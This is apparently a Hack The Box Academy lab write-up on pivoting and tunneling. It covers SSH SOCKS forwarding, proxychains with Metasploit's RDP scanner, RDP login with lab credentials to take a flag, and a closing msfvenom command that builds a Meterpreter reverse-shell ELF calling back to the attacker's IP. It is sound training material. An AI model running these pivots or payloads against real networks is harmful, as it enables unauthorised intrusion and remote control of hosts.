 ## Pivoting, Tunneling, and Port Forwarding   
Once a foothold is gained during an assessment, it may be in scope to move laterally and vertically within a target network. Using one compromised machine to access another is called pivoting and allows us to access networks and resources that are not directly accessible to us through the compromised host. Port forwarding accepts the traffic on a given IP address and port and redirects it to a different IP address and port combination. Tunneling is a technique that allows us to encapsulate traffic within another protocol so that it looks like a benign traffic stream.

# Questions and Answers: 

## Dynamic Port Forwarding with SSH and SOCKS Tunneling

 *SSH with user "ubuntu" and password "HTB_@cademy_stdnt!"*

* **You have successfully captured credentials to an external facing Web Server. Connect to the target and list the network interfaces. How many network interfaces does the target web server have? (Including the loopback interface)**

I began by connecting to the SSH server using the following command:
```bash
ssh -D 9050 ubuntu@10.129.144.206
```
After successfully logging in, I enumerated the network interfaces with:
```bash
ubuntu@WEB01:~$ ifconfig

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.144.206  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 fe80::250:56ff:feb0:403a  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb0:403a  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b0:40:3a  txqueuelen 1000  (Ethernet)
        RX packets 1350  bytes 117241 (117.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 155  bytes 16860 (16.8 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.129  netmask 255.255.254.0  broadcast 172.16.5.255
        inet6 fe80::250:56ff:feb0:2f8  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b0:02:f8  txqueuelen 1000  (Ethernet)
        RX packets 99  bytes 8340 (8.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 52  bytes 3910 (3.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 352  bytes 27739 (27.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 352  bytes 27739 (27.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

* **Apply the concepts taught in this section to pivot to the internal network and use RDP (credentials: victor:pass@123) to take control of the Windows target on 172.16.5.19. Submit the contents of Flag.txt located on the Desktop.**


To verify that my pivot was functioning correctly, I ran the following Nmap command:

```bash
nmap -v -sV -p9050 localhost
```
The results confirmed that port 9050 was open and running tor-socks, indicating that the pivot was set up properly.

Next, I used Metasploit with ProxyChains to scan for RDP services:
```bash
proxychains msfconsole
search rdp_scanner
use auxiliary/scanner/rdp/rdp_scanner
set rhosts 172.16.5.19
run
```

The scan confirmed that RDP was enabled on 172.16.5.19:3389 with the following details:
```bash
Hostname: DC01
Domain: INLANEFREIGHT
FQDN: DC01.inlanefreight.local
OS Version: Windows Server 2019 (10.0.17763)
Network Level Authentication (NLA): Disabled
```

I then attempted to connect to the Windows host using ProxyChains and xfreerdp with the credentials HTB provided:

```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
The connection was successful, granting me access to the remote desktop. Navigating to the Desktop directory, I found the flag and retrieved it.

[![Screenshot-2025-03-03-083203.png](https://i.postimg.cc/BnSkc3gN/Screenshot-2025-03-03-083203.png)](https://postimg.cc/56rsbZDF)


## Remote/Reverse Port Forwarding with SSH

*SSH with user "ubuntu" and password "HTB_@cademy_stdnt!"*
* **Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target? (Format: x.x.x.x)**

To begin, I connected to the SSH server using dynamic port forwarding with the following command:
```bash
ssh -D 9050 ubuntu@10.129.142.166
```
Once connected, I enumerated the network interfaces using:
```bash
ubuntu@WEB01:~$ ifconfig

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.142.166  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:feb0:1692  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb0:1692  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b0:16:92  txqueuelen 1000  (Ethernet)
        RX packets 3733  bytes 311318 (311.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 294  bytes 26883 (26.8 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.129  netmask 255.255.254.0  broadcast 172.16.5.255
        inet6 fe80::250:56ff:feb0:8a2f  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b0:8a:2f  txqueuelen 1000  (Ethernet)
        RX packets 141  bytes 11147 (11.1 KB)
        RX errors 0  dropped 14  overruns 0  frame 0
        TX packets 128  bytes 9526 (9.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 697  bytes 54902 (54.9 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 697  bytes 54902 (54.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```
The output revealed three interfaces, one of which was ens224, assigned the IP address **172.16.5.129**. This indicated that the machine was part of a private network that granted communication with the Windows server target

* **What IP address is used on the attack host to ensure the handler is listening on all IP addresses assigned to the host? (Format: x.x.x.x)**

When setting up a listener (e.g., for a reverse shell, Meterpreter handler, or any other network service), `0.0.0.0` ensures that the service listens on all available network interfaces rather than a specific one.


## Meterpreter Tunneling & Port Forwarding

* **What two IP addresses can be discovered when attempting a ping sweep from the Ubuntu pivot host? (Format: x.x.x.x,x.x.x.x)**

I connected to the SSH server using dynamic port forwarding with the following command:

```bash
ssh -D 9050 ubuntu@10.129.135.184
```
Next, I generated a Meterpreter payload for the Ubuntu server using msfvenom:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.162 LPORT=8080 -f elf -o shell

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: shell

```




